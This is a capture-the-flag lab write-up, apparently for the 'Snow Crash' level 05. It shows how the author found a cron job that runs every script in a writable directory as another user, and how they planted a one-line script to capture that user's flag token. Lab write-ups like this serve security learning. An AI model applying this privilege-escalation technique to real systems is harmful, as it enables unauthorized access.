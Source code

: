 # Flag 05

- when logged in I had this msg "You have new mail.", so we have an email server here
- `cd /var/mail/ | ll`
- output: `-rw-r--r--+ 1 root mail  58 Feb 10 13:14 level05`

- `cat level05 `
- `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`
- So exec the secipt /usr/sbin/openarenaserver every */2 * * * * -> At every 2nd minute. -> will try to cat the script

- `cat /usr/sbin/openarenaserver`
- 
``` shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

- The script exce all in the folder `/opt/openarenaserver/` and that remove them with the permission of flag05 user

- write a script `/opt/openarenaserver/sh.sh` that exec the getflag cmd and write the result at `/tmp/issam` file and wait 2 min au max.

- `echo "getflag > /tmp/issam" > /opt/openarenaserver/sh.sh`
- `cat /tmp/issam`
- `Check flag.Here is your token : viuaaale9huek52boumoomioc`